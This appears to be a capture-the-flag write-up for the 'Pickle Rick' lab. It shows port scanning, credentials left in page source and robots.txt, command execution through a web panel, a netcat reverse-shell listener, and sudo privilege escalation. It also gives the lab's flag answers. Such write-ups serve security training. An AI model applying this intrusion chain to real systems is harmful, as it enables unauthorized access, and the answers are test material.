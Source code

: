 # Pickle Rick

A Rick and Morty CTF. Help turn Rick back into a human!

---

# Task 1

nmap shows there's two open ports. The challenge hints at using gobuster, so
let's run gobuster while starting assigment 1.

```bash
nmap -sC -sV 10.10.4.29
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-01 13:08 CEST
Nmap scan report for 10.10.4.29
Host is up (0.049s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c8:f2:13:e8:57:74:33:37:bc:4d:86:f5:5d:15:bb:81 (RSA)
|   256 60:ce:fa:70:29:a4:c2:97:ad:8a:61:4d:f2:86:8e:06 (ECDSA)
|_  256 2f:12:7d:88:22:0e:0f:bd:73:78:27:f4:2c:b6:06:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

1. What is the first ingredient Rick needs?

The page source of the index shows a commented html section. Maybe that'll be
useful later.

```html
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

`gobuster` reveals several pages:

```
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/robots.txt (Status: 200)
```

The `portal.php` page redirefcts us to `login.php` so let's focus on there. We
already found a username in the index and the `robots.txt` contains an odd
string, maybe that's the password? Yes!

Now we're on the `portal.php` page which has a command panel to maybe execute
commands? Yes!

![](commandpanel.png)

Let's try and cat that super secret ingredient. So.. that doesn't work.

![](commandpanel2.png)

Luckily there's multiple ways of getting to output the contents of that file,
lets try `head` and `tail`. No luck. Seems we're lucky by using `grep ''
Sup3rS3cretPickl3Ingred.txt`

```
mr. meeseek hair
```

2. Whats the second ingredient Rick needs?

Seeing there's not much else on this website, let's try to get a reverse shell.
I can't use `netcat` for this, because it's disabled just like `head`. Luckily
[pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
has some great examples. It seems we can use the `python3` binary.

![](commandpanel3.png)

```bash
$ nc -lnvp 9999
Connection from 10.10.4.29:43356
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
$ cat clue.txt
Look around the file system for the other ingredient.
```

After trying some find for all txt files without result, I checked out the
homedirs, and lo and behold, the homedir of rick has the ingredient.

```
$ cat /home/rick/second\ ingredients
1 jerry tear
```

```
1 jerry tear
```

3. Whats the final ingredient Rick needs?

I'm guessing this last one is in `/root` so let's try and privesc.

`sudo -l` shows we can basically do anything we like

```bash
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-4-29.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-4-29.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

```bash
$ sudo ls /root
3rd.txt
snap
$ sudo cat /root/3rd.txt
3rd ingredients: fleeb juice
```

```
fleeb juice
```
